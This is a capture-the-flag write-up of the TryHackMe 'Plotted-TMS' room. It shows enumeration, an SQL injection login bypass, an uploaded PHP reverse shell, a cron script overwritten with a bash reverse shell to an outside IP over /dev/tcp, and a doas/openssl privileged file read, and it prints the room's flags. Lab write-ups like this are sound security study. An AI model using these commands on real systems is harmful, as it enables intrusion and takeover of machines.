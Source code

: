 # Room: Plotted-TMS

## General Info
- **Room link:** [Plotted-TMS](https://tryhackme.com/room/plottedtms)


## Description

Happy Hunting!

Tip: Enumeration is key!

## Provided Files / Links
- [x] Target Machine IP (10.10.143.243)

## Enumeration / Recon

- Port Enumeration:
`nmap -sV 10.10.143.243`

```
PORT    STATE SERVICE VERSION
22/tcp  open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp  open  http    Apache httpd 2.4.41 ((Ubuntu))
445/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
```

- Directory Enumeration

I first enumerate on the port 80:

`gobuster dir -u http://10.10.143.243 -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt`

```
/admin                (Status: 301) [Size: 314] [--> http://10.10.143.243/admin/]
/shadow               (Status: 200) [Size: 25]
/passwd               (Status: 200) [Size: 25]
/server-status        (Status: 403) [Size: 278]
```

In the /admin page, there is an id_rsa file with the following base64 string `VHJ1c3QgbWUgaXQgaXMgbm90IHRoaXMgZWFzeS4ubm93IGdldCBiYWNrIHRvIGVudW1lcmF0aW9uIDpE`. The decoding string is `Trust me it is not this easy..now get back to enumeration :D`.

In the /shadow and /passwd pages, the following base64 strings `bm90IHRoaXMgZWFzeSA6RA==` => `not this easy :D`.

Then I enumerate on the port 445:

`gobuster dir -u http://10.10.143.243:445 -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt`

```
/management           (Status: 301) [Size: 324] [--> http://10.10.143.243:445/management/]
/server-status        (Status: 403) [Size: 279]
```

I went to /management, there is Login button which leads to /management/login.php.

I test for basic SQLi with `' OR 1=1 -- ` and I actually log in the application as Admin.

## Website exploitation

In the http://10.10.143.243:445/management/admin/?page=user/list page, I find a user `puser`.

When going to the settings page (http://10.10.143.243:445/management/admin/?page=system_info), I found that there are several uploads fields (for logo and cover).

I uploaded a php reverse shell and got straight in the target machine (with `nc -nlvp 1337`).

I stabilized the shell with `python3 -c 'import pty; pty.spawn("/bin/bash")'`.

I find the first user flag in /home/plot_admin/user.txt but I don't have permission to read it (I am user www-data).

When inspecting /etc/group, I notice that user ubuntu is in the sudo group (it will be the way to get root access).

I downloaded linpeas.sh from my machine and ran it.

The most import line is:

`* *     * * *   plot_admin /var/www/scripts/backup.sh`

Since I am www-data, I have access to this file in the /www directory.

I delete it to create a new reverse shell:

```
echo '#!/bin/bash' > backup.sh
echo '/bin/bash -c "/bin/bash -i >& /dev/tcp/10.9.1.194/33456 0>&1"' >> /var/www/scripts/backup.sh.
```

I was waiting for a couple of minutes and forgot to give execute permission to the script: `chmod +x backup.sh`.

### Plot_admin

After a minute, I am plot_admin. I can now read the user.txt flag `77927510d5edacea1f9e86602f1fbadb`.

I then ran linpeas.sh on this user and found this vulnerability:

```
╔══════════╣ Checking doas.conf
permit nopass plot_admin as root cmd openssl 
```

With this finding, I had a look at the "file read" section of https://gtfobins.github.io/gtfobins/openssl/:

```
It reads data from files, it may be used to do privileged reads or disclose files outside a restricted file system.

LFILE=file_to_read
openssl enc -in "$LFILE"
```

I then followed this privilege escalation method:

```
LFILE=/root/root.txt 
doas -u root openssl enc -in "$LFILE" 
```

And got the root flag **53f85e2da3e874426fa059040a9bdcab**.
